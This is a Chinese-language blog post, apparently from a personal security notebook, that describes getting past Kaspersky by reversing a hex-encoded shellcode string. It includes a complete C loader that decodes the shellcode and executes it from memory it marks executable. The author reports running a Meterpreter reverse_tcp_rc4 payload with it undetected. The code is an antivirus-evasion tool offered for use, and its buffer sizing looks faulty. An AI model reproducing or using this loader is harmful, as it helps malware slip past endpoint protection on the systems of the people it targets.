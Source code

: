 # 翻转字符串绕卡巴斯基

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

## 思路

直接python一行代码翻转字符串。

![](../.gitbook/assets/image%20%28145%29.png)

在加载器内翻转字符串。

```text
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }
```

然后执行老哥的ssi，这里遇到一个坑，tm的vc6根本没有malloc\(略略略\)。

然后请出我们的卡巴斯基。

![](../.gitbook/assets/image%20%28148%29.png)

虽然我们古典主义脚本小子特别喜欢弹窗\(更多时候弹calc\)，这里我们再测一下Meterpreter。

防止在流量检测的时候被杀掉，我们使用windows/meterpreter/reverse\_tcp\_rc4这个payload。

![](../.gitbook/assets/image%20%28147%29.png)

![](../.gitbook/assets/image%20%28146%29.png)

略略略。

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```

